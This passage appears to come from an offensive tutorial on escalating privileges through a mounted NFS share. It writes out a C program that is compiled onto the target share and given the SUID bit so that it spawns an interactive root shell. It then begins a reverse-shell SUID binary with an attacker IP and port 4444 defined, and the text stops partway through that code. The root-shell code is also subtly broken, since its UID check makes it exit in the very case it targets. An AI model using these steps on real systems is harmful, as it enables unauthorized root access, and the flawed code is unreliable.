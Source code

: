 ##### Method B: Advanced SUID Shell with Error Handling
```bash
cat <<'EOF' > /mnt/target_nfs/advanced_shell.c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <pwd.h>

int main() {
    // Check if running with SUID privileges
    if (getuid() != 0) {
        printf("[-] SUID bit not set or not running as root\n");
        return 1;
    }
    
    printf("[+] SUID exploitation successful!\n");
    printf("[+] Effective UID: %d\n", geteuid());
    printf("[+] Real UID: %d\n", getuid());
    
    // Set effective and real UIDs to root
    if (setuid(0) != 0) {
        perror("setuid");
        return 1;
    }
    
    if (setgid(0) != 0) {
        perror("setgid");
        return 1;
    }
    
    printf("[+] Spawning root shell...\n");
    
    // Spawn interactive shell
    char *shell = "/bin/bash";
    char *args[] = {shell, "-i", NULL};
    
    execve(shell, args, NULL);
    
    // If execve fails
    perror("execve");
    return 1;
}
EOF

gcc /mnt/target_nfs/advanced_shell.c -o /mnt/target_nfs/advanced_shell
chmod +s /mnt/target_nfs/advanced_shell
```

##### Method C: Reverse Shell SUID Binary
```bash
cat <<'EOF' > /mnt/target_nfs/reverse_shell.c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>

#define ATTACKER_IP "YOUR_IP_HERE"
#define ATTACKER_PORT 4444

int main() {
```